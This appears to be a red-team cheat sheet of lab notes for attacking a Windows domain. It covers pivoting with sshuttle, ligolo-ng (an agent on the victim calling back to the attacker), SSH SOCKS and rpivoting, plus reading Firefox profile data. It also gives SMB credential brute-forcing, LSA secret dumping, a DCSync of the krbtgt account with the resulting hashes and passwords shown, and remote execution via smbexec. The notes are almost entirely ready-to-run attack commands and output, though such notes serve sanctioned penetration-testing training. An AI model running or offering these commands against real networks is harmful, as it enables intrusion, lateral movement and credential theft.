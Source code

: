 # Pivoting

Sshuttle Command:

	sshuttle -r user@remote_host:2222 192.168.98.0/24 
	sshuttle -r user@remote_host 192.168.98.0/24 

	192.168.98.0/24 -> get from check ifconfig when see 2 adapter
	
	after shuttle
	
	nmap -sC -sV 192.168.98.5 -> IP for Pivoting

ligolo-ng

	#Attacker Machine, download proxy & agent :
	
	#Proxy
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

	#Agent
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

	Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim machine.

	# Attacker Machine
	sudo ip tuntap add user kali mode tun ligolo

	#Delete the 192.168.98.0/24 IP Range from the tun0 interface :
	sudo ip route del 192.168.98.0/24 dev tun0
	#Up the ligolo interface :
	sudo ip link set ligolo up
	#Add 192.168.98.0/24 IP range to the ligolo interface :
	sudo ip route add 192.168.98.0/24 dev ligolo

	Confirm the route on your attacker machine.

	ip route

	Start the proxy on the attacker server
	./proxy -selfcert -laddr 0.0.0.0:443

	Transfer the agent on the victim machine & start the connection
	#Replace this with your attacker IP address.
	./agent -connect 10.10.200.X:443 -ignore-cert

	session
	list_tunnels
	start

SSH Pivoting

	ssh -D 8088 privilege@192.168.80.10
	netstat -ano | grep 8088

rpivoting

	+ attacker set up
 		-check python2 availble 
		python2 server.py --server-port 9980 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
	 	ifconfig -> copy this ip to victim
   
  	+ victim set up
  	
		copy rpivoting to victim client 
		python2 client.py --server-ip 10.10.200.124 --server-port 9980


# Firefox Find Information

	ls -la .mozilla/
	cd .mozilla/firefox/
	# The filename may vary on your infrastructure, identify & use accordingly
	cd b2rri1qd.default-release
	
	sqlite3 places.sqlite
	.tables
	select * from moz_bookmarks;

# SMB

SMB Bruteforce IP List with one username and password

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" -u "john" -p "User1@#$%6" ; done

SMB check information 

	crackmapexec smb 192.168.98.2

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" sleep 10; done

SMB LSA 

	crackmapexec smb 192.168.98.30 -u john -p User1@#$%6 --lsa

	Output: 
		SMB         192.168.98.30   445    MGMT             			corpmngr@child.warfare.corp:User4&*&*

# Impacket tools

**Install Impacket In kali**

	sudo apt install python3-impacket

**Dumping user Krbtgt**

	impacket-secretsdump -debug child/corpmngr:"User4&*&*"@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

	Result:
	[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=child,DC=warfare,DC=corp
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
	krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
	krbtgt:aes128-cts-hmac-sha1-96:806d6ea798a9626d3ad00516dd6968b5
	krbtgt:des-cbc-md5:ba0b49b6b6455885

# Remote login with exec
	impacket-smbexec corpmngr:"User4&*&*"@192.168.98.120

# RedTeam-CheckSheet

